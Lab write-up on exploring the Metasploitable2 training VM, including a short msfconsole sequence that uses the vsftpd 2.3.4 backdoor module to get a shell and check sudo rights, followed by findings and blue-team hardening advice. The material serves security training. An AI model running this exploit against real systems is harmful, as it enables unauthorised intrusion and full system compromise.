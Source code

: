 # Metasploitable2 Exploration Notes

**Target IP:** `192.168.0.128`  
**Environment:** Metasploitable2 (vulnerable test VM) — **Do not expose to untrusted networks**  
**Author:** [your name / handle]  
**Date:** 2025-09-13

---

## 1. Objective
Explore the Metasploitable2 target to enumerate services, identify vulnerabilities, and demonstrate exploitation paths. Capture findings useful for both red-team (offense) learning and blue-team (defense/hardening) remediation.

---

## 2. Initial observations
- Visiting the target IP in a browser shows the default Metasploitable2 landing page and a warning:
  > **Warning:** Never expose this VM to an untrusted network!  
  > Contact: msfdev[at]metasploit.com  
  > Login with `msfadmin/msfadmin` to get started

- The page lists several deliberately vulnerable web applications and services, including: `TWiki`, `phpMyAdmin`, `Mutillidae`, `DVWA`, `WebDAV` and more. Many of these contain known vulnerabilities to practice with.

- **Note:** phpMyAdmin on this image requires a password; `msfadmin`/`msfadmin` did not authenticate there in this session (may be configured differently). DVWA is present and accessible — useful for web-app exploitation practice.

- Metasploitable2 services often run as privileged users (e.g., "runs as admin") which increases impact of exploits and is intentional for lab purposes.

---

## 3. Services discovered & initial enumeration
- FTP: `vsftpd 2.3.4` (port 21) — known to have a backdoor exploit in older builds.  
- HTTP: Default Metasploitable2 web portal and multiple web-app endpoints (TWiki, DVWA, Mutillidae, WebDAV, phpMyAdmin).  
- SSH: (if present) typical default configuration for the lab.  
- Note: This exercise focused on `vsftpd 2.3.4` exploitation as a direct and fast path to a shell.

---

## 4. Exploitation notes (red-team steps)
> **Precondition:** Only perform on authorized lab instances.

1. **Set target & attacker interfaces in Metasploit:**
   - `RHOST` = `192.168.0.128` (target)
   - `LHOST` = `192.168.0.231` (attacker / Kali)

2. **Use the vsftpd 2.3.4 backdoor exploit in Metasploit:**
   - Module: `exploit/unix/ftp/vsftpd_234_backdoor` (or similar)
   - Set payload and options, then `exploit`

3. **Result:** An interactive shell opened quickly. The lab's flag was found in the `msfadmin` user's directory.

4. **Privilege check:** Run `sudo -l` to list allowed sudo actions. In this case, the environment allowed escalation to root (lab intentionally configured to illustrate privilege escalation).

**Commands (example):**
```bash
# In msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.0.128
set LHOST 192.168.0.231
set PAYLOAD cmd/unix/interact
exploit
# After shell
ls /home/msfadmin
cat /home/msfadmin/user.txt   # or flag file found in msfadmin dir
sudo -l
```

---

## 5. Findings (concise)
- **No lockout/timeout:** Metasploit2 server (Metasploitable2 environment) does not implement account lockout or session timeout for administrative access — this is intentional in the lab but demonstrates a defensive gap in real environments.
- **Privileged services:** Many services run with elevated privileges (e.g., as root/admin) increasing exploit impact. In real-world systems, services should run with least privilege.
- **Multiple web-app vulnerabilities:** Presence of DVWA, Mutillidae, TWiki, phpMyAdmin, WebDAV expose numerous potential attack vectors (SQLi, RCE, file upload, auth bypass, etc.).
- **vsftpd 2.3.4 backdoor** provided immediate remote code execution (RCE) / shell in this lab instance — classic and fast exploitation path in Metasploitable2.

---

## 6. Impact
- Full system compromise achievable via known vsftpd backdoor exploit when service runs with excessive privileges.  
- Unauthorized access to web applications and stored credentials/artifacts possible.  
- In production, similar misconfigurations would allow data exfiltration, lateral movement, persistence, and complete system takeover.

---

## 7. Remediation & Blue Team recommendations
While Metasploitable2 is a purposely insecure training VM, the following real-world hardening steps would mitigate the discovered weaknesses:

### Immediate fixes
- **Patch/upgrade services**: Remove legacy/unsupported versions (e.g., upgrade vsftpd to a patched release).  
- **Remove or restrict vulnerable services**: Disable FTP if not required; use secure alternatives (SFTP/FTPS) with strong configuration.  
- **Least privilege**: Configure services to run under dedicated low-privilege accounts, not as root/Administrator.  
- **Credential hygiene**: Change default passwords (`msfadmin`), enforce strong password policies, and disable or rotate default accounts.

### Medium-term & process improvements
- **Network segmentation & ACLs**: Limit access to admin interfaces and developer tooling behind management networks and firewalls.  
- **Implement account lockout & session control**: Enforce lockout thresholds, MFA for admin panels, session timeouts and monitoring.  
- **Harden web apps**: Remove development/demo apps from production environments; scan and patch web applications regularly.  
- **Monitoring & detection**: Deploy host and network IDS/IPS (Wazuh/OSSEC, Suricata), and monitor for anomalous FTP/SSH logins and web exploit patterns.  
- **Regular pentesting & vulnerability management**: Schedule frequent scans and remediation cycles to find and fix issues before attackers do.

---

## 8. Lessons learned / notes for future labs
- Metasploitable2 is an excellent training VM showcasing a range of vulnerabilities — use it to practice both exploit techniques and defensive mitigations.  
- Always confirm service versions and binary locations before assuming exploit applicability.  
- Keep an organized evidence trail: capture logs, output from Metasploit, and indicate file paths for flags and indicators of compromise (IOCs).

---

## 9. Evidence / artifacts
- `msfconsole` session log with exploit run and shell output.  
- Path to discovered flag (e.g., `/home/msfadmin/*`).  
- Notes on `sudo -l` output and any root access indicators.

---

*End of Metasploitable2 exploration notes.*

---
Original Notes:
<details>
ip “192.168.0.128”

to we're going to expllore the metasploit server

first thing I notice is that Metasploit2 do not have a lockout/timeout for it's server when running. the server never locks the user out

another issue, metasploitable2 runs as admin

if we enter hte ip into the browser we get a website

website info:

                _                  _       _ _        _     _      ____  
 _ __ ___   ___| |_ __ _ ___ _ __ | | ___ (_) |_ __ _| |__ | | ___|___ \ 
| '_ ` _ \ / _ \ __/ _` / __| '_ \| |/ _ \| | __/ _` | '_ \| |/ _ \ __) |
| | | | | |  __/ || (_| \__ \ |_) | | (_) | | || (_| | |_) | |  __// __/ 
|_| |_| |_|\___|\__\__,_|___/ .__/|_|\___/|_|\__\__,_|_.__/|_|\___|_____|
                            |_|                                          


Warning: Never expose this VM to an untrusted network!

Contact: msfdev[at]metasploit.com

Login with msfadmin/msfadmin to get started


    TWiki
    phpMyAdmin
    Mutillidae
    DVWA
    WebDAV

phpadmin requires a password, msfadmin doesn't work

we also have dwva (found on the metasploitable2 website)

this means we have a lot of sub sites we can find
furthermore, we can log into dwva (damn vuln web app) that we can learn and exploit! How usefule:D

so we have MANY many ways to exploit this.

We decided to utilize port 21 and vsftpd 2.3.4 which as exploits when we look at metaploitable

so, we have lots of options here, but let's do the direct thing and go for the server

so when we use metaplosit with vsftpd 2.3.4 we set the rhost as teh target of 192.168.0.128 and local host (lhost) of 192.168.0.231 and utilize the 2.3.4 exploit and we get a shell instantly - found the flag under the msfadmin dir

we use sudo -l and see that we have root access

Now hte hard part, fixing the issue via blue team.
</details>

